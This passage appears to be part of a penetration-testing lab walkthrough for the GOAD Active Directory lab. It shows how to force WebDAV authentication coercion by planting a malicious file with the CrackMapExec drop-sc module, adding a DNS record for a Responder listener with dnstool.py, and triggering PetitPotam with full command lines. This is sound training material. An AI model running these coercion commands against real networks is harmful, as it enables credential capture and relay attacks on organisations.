 - Or we could also do that with the cme module **drop-sc**

```bash
cme smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local -M drop-sc
```

![part13_drop-sc.png](/assets/blog/GOAD/part13_drop-sc.png)

- Now we visit the share with our victim khal.drogo rdp session : `\\castelblack\all`
- And as soon as we enter the folder the webclient service start :

![part13_drop-sc-start-webclient.png](/assets/blog/GOAD/part13_drop-sc-start-webclient.png)

>Just to be clear here we are connected as khal drogo on braavos. The malicious document is on castelblack. When khal visit the share all on castelblack containing our malicious document, the webclient service start on braavos (kahl's client machine)

- We can verify it with cme too :

![part13_cme-webclient.png](/assets/blog/GOAD/part13_cme-webclient.png)

- now we will go on our responder CT to get the webdav coerce

- Once the webclient started we can add a dns entry to our responder ip with [dnstools](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py):

```bash
dnstool.py -u 'north.sevenkingdoms.local\arya.stark' -p Needle --record 'responder' --action add --data 10.10.10.6 192.168.10.11
```

![part13_add_dns_entry.png](/assets/blog/GOAD/part13_add_dns_entry.png)

- Now if we are in the same network we can try directly or if we are in another network we will have to wait for the dns.

- Next we use petitpotam on the server with webdav enabled to force a webdav (**http**) coerce to our server :

```bash
petitpotam.py -u 'arya.stark' -p Needle -d 'north.sevenkingdoms.local' "responder@80/random.txt" 192.168.10.23
```

![part13_webdav_responder.png](/assets/blog/GOAD/part13_webdav_responder.png)

- Another way to do if the victim can resolve your netbios name you will not have to add a dns entry an you can use the netbios name given by responder

![part13_webdav_respondernetbios.png](/assets/blog/GOAD/part13_webdav_respondernetbios.png)

```bash
petitpotam.py -u 'arya.stark' -p Needle -d 'north.sevenkingdoms.local' "WIN-6WQ7CSHQ2YG@80/random.txt" 192.168.10.23
```

- And on our listener we got a connection :
